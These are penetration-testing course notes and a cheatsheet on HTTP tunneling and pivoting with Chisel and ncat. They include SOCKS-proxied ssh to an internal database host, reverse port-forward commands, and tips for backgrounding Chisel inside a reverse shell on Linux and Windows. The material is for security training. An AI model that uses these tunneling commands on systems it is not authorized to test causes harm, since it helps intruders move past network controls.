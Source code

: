 ```
ProxyCommand accepts a shell command that is used to open a proxy-enabled channel. The documentation suggests using the _OpenBSD_ version of Netcat, which exposes the _-X_ flag[5:1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/tunneling-through-deep-packet-inspection/http-tunneling-theory-and-practice/http-tunneling-with-chisel#fn5) and can connect to a SOCKS or HTTP proxy. However, the version of Netcat that ships with Kali doesn't support proxying.

Instead, we'll use Ncat the Netcat alternative written by the maintainers of Nmap. We can install this on Kali with **sudo apt install ncat**.
```
- This will create a socks channel to port 1080 with ncat, and then tunnel the ssh traffic through the socks proxy. Which will be then forwarded as HTTP traffic by our chisel server.
```
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

## CHISEL CHEATSHEET

## **Reverse Shell Tips**
### **Run Chisel in the Background**

Running `chisel` in the foreground in a reverse shell will render your shell useless, adding these notes here as a way to work around this.

#### **Linux**

**Client Mode**

```
# Background a process with '&'
# Example commmand
chisel client 10.0.0.2:8080 R:127.0.0.1:33060:127.0.0.1:3306 R:127.0.0.1:8800:127.0.0.1:80 &
```

**Server Mode**

```
# Background a process with '&'
# Example commmand
chisel server --port 8080 --reverse &
```

#### **Windows**

##### **PowerShell**

**Client Mode**

```
# Use the Start-Job cmdlet with a script block
# Example commmand
$scriptBlock = { Start-Process C:\Windows\Temp\chisel.exe -ArgumentList @('client','10.0.0.2:8080','R:127.0.0.1:33060:127.0.0.1:3306','R:127.0.0.1:8800:127.0.0.1:80') }
Start-Job -ScriptBlock $scriptBlock
```
